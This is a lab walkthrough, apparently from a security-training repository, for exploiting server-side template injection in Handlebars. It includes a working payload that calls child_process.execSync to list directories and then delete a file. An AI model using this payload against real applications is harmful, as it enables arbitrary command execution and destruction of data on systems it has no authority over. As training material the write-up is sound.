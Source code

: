 # Lab: Server-side template injection in an unknown language with a documented exploit

> Lab Objective: identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

- View any product which is out of stock, you'll be redirected to `/?message=message`, add this payload `}}${{7*7}}` to the message and it'll cause an error, the template used is Handlebars.
  ![1st screenshot](./attachments/1.png)

- In order to list root directory use the following payload:

```js
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -a /home');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

![2nd screenshot](./attachments/2.png)

- Use the same payload to list `/home` directory.
  ![3rd screenshot](./attachments/3.png)

- Use it again to list `/home/carlos` directory.
  ![4th screenshot](./attachments/4.png)

- Use it again but to delete `morale.txt` file using this command `rm /home/carlos/morale.txt`
  ![5th screenshot](./attachments/5.png)

- And the lab is solved
  ![6th screenshot](./attachments/6.png)

---
